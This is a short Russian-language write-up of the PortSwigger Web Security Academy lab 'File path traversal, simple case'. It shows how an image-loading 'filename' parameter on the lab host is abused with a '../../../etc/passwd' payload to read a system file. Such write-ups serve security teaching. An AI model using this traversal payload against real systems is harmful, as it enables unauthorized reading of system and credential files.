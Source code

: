 ```yaml
---
title: "File path traversal, simple case"
date: 2025-07-03
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/file-path-traversal/lab-simple"
classes: wide
---
```


Эта лабораторная работа содержит уязвимость **Path Traversal** при отображении изображений продуктов.

## Solution

На странице представлены товары:

![IMG](/assets/images/PortSwigger/IMG_path_traversal/IMG_simple_case/1.png){: height="200" .align-center}

На странице информация о товаре выдается по его `id`:

```url
https://0a9b001d04fc186f81fd6bf600c3003a.web-security-academy.net/product?productId=1
```

Картинка каждого товара загружается с помощью запроса:

![IMG](/assets/images/PortSwigger/IMG_path_traversal/IMG_simple_case/2.png){: height="200" .align-center}

Такой запрос приводит к уязвимости **Path Traversal**. С помощью следующего запроса мы можем скачать файл с паролями:

```
https://0a9b001d04fc186f81fd6bf600c3003a.web-security-academy.net/image?filename=/../../../etc/passwd
```

![IMG](/assets/images/PortSwigger/IMG_path_traversal/IMG_simple_case/3.png){: height="200" .align-center}